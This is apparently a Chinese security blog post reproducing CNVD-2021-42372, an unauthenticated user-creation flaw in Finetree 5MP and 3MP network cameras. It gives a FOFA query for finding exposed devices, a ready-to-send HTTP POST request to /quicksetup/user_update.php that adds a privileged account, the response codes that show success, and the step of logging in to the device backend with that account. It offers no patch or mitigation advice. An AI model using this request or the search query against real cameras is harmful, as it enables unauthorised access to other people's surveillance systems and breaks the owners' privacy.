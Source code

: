 #  Finetree-5MP-摄像机-user_pop.php-任意用户添加漏洞-CNVD-2021-42372   
原创 骇客安全  骇客安全   2025-03-03 16:00  
  
## 漏洞影响  
```
Finetree 5MP
Finetree 3MP
```  
  
## FOFA  
```
app="Finetree-5MP-Network-Camera"
```  
## 漏洞复现  
  
登录页面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991M6VqiaB5oWkwqwhqkaZoNuW0Gh9OjNY3AqdUnLddg3aV6A4iav1eAw6NvA5TJTibfv1JniceosFgQSEw/640?wx_fmt=png&from=appmsg "null")  
  
存在漏洞的文件 user_pop.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991M6VqiaB5oWkwqwhqkaZoNuWT6CrUc1RvO9vA5ndgH1x3SokRnAAgIYiawRsH08JNCT1ic5oS8modXEA/640?wx_fmt=png&from=appmsg "null")  
```
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```  
  
可以Burpsuite发送POST请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991M6VqiaB5oWkwqwhqkaZoNuWicgZaGArloptzqSI5GZh83f0t2qxXUmDWH668TCLOWWuic0O1iaFCLrrQ/640?wx_fmt=png&from=appmsg "null")  
  
或者HackBar发送POST请求，返回200即为添加成功，返回804则为用户重复  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991M6VqiaB5oWkwqwhqkaZoNuWfJ8cGv2fEUNvVXoEUF8JPlP9d2qIEjmzqMLBiamphlVVricphMZYuzicA/640?wx_fmt=png&from=appmsg "null")  
  
利用添加的账户可以登录后台  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991M6VqiaB5oWkwqwhqkaZoNuWu8lShU0bsZuticqvV2JAnmjURSsUkelBuUBMtwdia2vgkLEMicCdliac6w/640?wx_fmt=png&from=appmsg "null")  
  
